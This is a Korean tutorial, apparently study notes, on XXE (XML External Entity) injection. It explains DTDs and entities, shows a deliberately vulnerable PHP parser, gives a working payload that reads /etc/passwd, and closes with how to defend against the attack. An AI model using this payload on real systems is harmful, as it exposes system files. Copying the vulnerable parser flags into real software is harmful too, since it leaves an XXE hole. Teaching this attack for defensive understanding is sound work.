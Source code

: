 * 이론
** XXE (XML eXternal Entity) Injection 이란?
XML의 DTD의 외부 Entity 참조기능을 악용하여 중요 파일 열람, DOS등의 행위를 시도하는
공격임. 

** 사례
구글, 페이스북등 세계적인 회사들의 서버에서도 취약점이 발견된 적이 있다. 

페이스북 XXE 취약점
https://threatpost.com/xxe-bug-patched-in-facebook-careers-third-party-service/110151/

구글 XXE 취약점
http://securityaffairs.co/wordpress/23943/hacking/hacking-google-server-with-xml.html

워드프레스 XXE 취약점
https://packetstormsecurity.com/files/121492/wpadvancedxml-xxe.txt

또한 관련된 취약점을 CVE 데이터베이스에서 찾아보면 엄청나게 많은 것을 알 수 있다. 

http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=xxe 



** XML?
데이터 교환용의 마크업 언어
#+BEGIN_SRC xml
<recipe>
<title>스푼위의 피넛버퍼</title>
<ingredientlist>
<ingredient>피넛버터</ingredient>
</ingredientlist>
<preparation>
스푼을 잡고 피넛버터 단지에 넣은 후, 피넛버터를 한 숟갈 덜어낸다. 
</preparation>
</recipe>
#+END_SRC

XHTML, RSS, XML-RPC, SOAP 등 많은 곳에 사용된다.

** DTD?
Document Type Definition 의 약자로 XML문서에 사용될 구성요소를 정의해 놓은 것이다.

위의 XML에서 recipe, title 등의 구성요소를 사용할 수 있다고 정의해놓은 것이 DTD이다.

** 엔터티?
XML에서 데이터를 참조하기 위한 방법. DTD에서 ENTITY라는 키워드를 사용해서 정의한다.

그리고 XML본문에서 참조하여 사용한다. 

일반 엔터티 참조는 &로 시작하여 ;으로 끝난다.


** 어떻게 공격이 가능한가?
DTD 문법에는 외부 엔터티를 정의할 수 있는 기능이 있다. 

외부 엔터티는 문서 외부에 존재하는
값(파일이나 URL등)을 문서 내에서 보여주기 위한 기능이다. 

이 외부 엔터티는 SYSTEM 이라는 키워드를 이용해서 사용가능하며,
여기에 중요 파일을 지정할 경우 그 값이 노출된다. 

* 검증

** 구동환경
구동환경은 다음과 같다. 최신의 환경으로 세팅하였다. 

php 7.0

php-xml
 
Apache2



** 공격 대상 PHP 페이지
다음은 취약점을 갖고 있는 PHP 페이지 코드이다. 

입력받은 XML 문자열을 파싱한 결과를 출력해주는 간단한 기능을 가지고 있다. 

#+BEGIN_SRC php
<html>
	<body>
<?php

$xml = $_POST['xml'];
if ($xml){
	echo "input length: ".strlen($_POST['xml']);
	echo '<br>';
	$dom = new DOMDocument();
	$dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
	$doc = simplexml_import_dom($dom);
	
	}
?>
	<h1> Vulnerable XML Parser</h1>
	<form action="index.php" method='post'>
		<textarea name="xml" rows="12" cols="100"></textarea>
		<br>
		<input type="submit" size="55">
		<br>
		<?php echo $doc->testing; ?>
	 </form>
	</body>
</html>
#+END_SRC


** 정상문자열

#+BEGIN_SRC xml
<!DOCTYPE test
[<!ENTITY foo "xml external entity">]>
<test><testing>&foo;</testing></test>
#+END_SRC

DTD에서 foo라는 이름의 엔티티를 정의하였고, 
XML에서는 foo의 값을 출력하게 되어있다. 

이 XML 문자열을 입력한 결과는 다음과 같다.  


** 공격문자열

#+BEGIN_SRC xml
<!DOCTYPE test
[<!ENTITY foo SYSTEM "file:///etc/passwd">]>
<test><testing>&foo;</testing></test>
#+END_SRC

foo의 값을 SYSTEM "file:///etc/passwd" 로 변경되었다. 

그 결과 다음과 같이 시스템 파일이 노출된다. 

* 방어방법
XML을 파싱할 때 외부 참조를 허용하지 않는다. 

** 관련 PHP 플래그의 의미
LIBXML_NOENT : XML을 파싱할 때 엔터티 참조를 허용한다. (외부/내부 모두)

LIBXML_DTDLOAD :외부 참조 DTD 서브셋을 로드

* 참고자료
http://hyunmini.tistory.com/66

https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection

https://ko.wikipedia.org/wiki/XML

https://en.wikipedia.org/wiki/Document_type_definition

http://php.net/manual/en/domdocument.loadxml.php

http://php.net/manual/en/libxml.constants.php

http://php.net/manual/en/language.operators.bitwise.php

http://stackoverflow.com/questions/38807506/what-does-libxml-noent-do-and-why-isnt-it-called-libxml-ent

